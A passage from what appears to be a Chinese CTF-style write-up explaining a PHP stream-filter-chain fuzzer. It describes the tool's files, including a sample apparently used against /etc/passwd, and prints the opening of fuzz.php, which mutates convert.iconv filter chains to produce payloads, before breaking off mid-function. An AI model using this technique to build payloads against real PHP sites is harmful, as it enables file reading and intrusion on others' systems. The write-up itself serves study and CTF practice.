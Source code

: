 ![img](https://nssctf.wdf.ink//img/WDTJ/202302072110603.png)

- `test.php`由`test.py`生成的包含对应payload的测试样例，包含`test.py`中`file_to_use`变量指向的文件：

![img](https://nssctf.wdf.ink//img/WDTJ/202302072110801.png)

- `phpresult`一个对`/etc/passwd`利用后的样例（？看样子是成功给/etc/passwd文件写入了payload（？

每个文件大概做什么我们就介绍完了，下面跟进两个核心部分，一个是fuzz脚本一个是生成脚本([test.py](http://test.py/)):

- fuzz.php

```php
<?php
error_reporting(E_ALL & ~E_WARNING);
ini_set("memory_limit", "-1");

set_time_limit(0);

if(!file_exists("./init")){
    file_put_contents('./init','abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM');
 }
$input = './init';

$iconv_list = ['437','500','500V1','850','851'.....];// iconv -l生成，太长了所以省略，你也可以在这里定义你想用到的编码集
$filter_list = [
   'string.rot13',// seem no use
    'convert.iconv.*',
];

print_r($filter_list);

$prev_str = ""; # 存储上一个成功的字符链
// $news = ""; #好像没意义x
// $found_count = 0; #好像没意义x
$op_all = ""; #一般是res中的链子当作种子

$op_all_max = 2000; #链的最大长度
$last_op = "";# 上一个拼接的链子
$init_value = file_get_contents($input);
$max_c_len = strlen($init_value) * 5;

if(!is_dir('./res')){
    mkdir('./res');
}

if(!file_exists("./res/C")){
   file_put_contents('./res/C','convert.iconv.UTF8.CSISO2022KR'); #是所有链子的开始，是变异的基础，也是忘不掉的那个人
}

function getseeds($dir){ //获取文件夹中的所有文件名
    $handler = opendir($dir);  
    while (($filename = readdir($handler)) !== false) 
    {
        if ($filename !== "." && $filename !== "..") 
        {  
            $files[] = $filename ;  
        } 
    }  
    closedir($handler);  
    return $files;
}
function getRandomSeedFromDir($dir){ //因为这段代码冗余部分太多所以简化成函数了方便理解
    $files = getseeds($dir);
```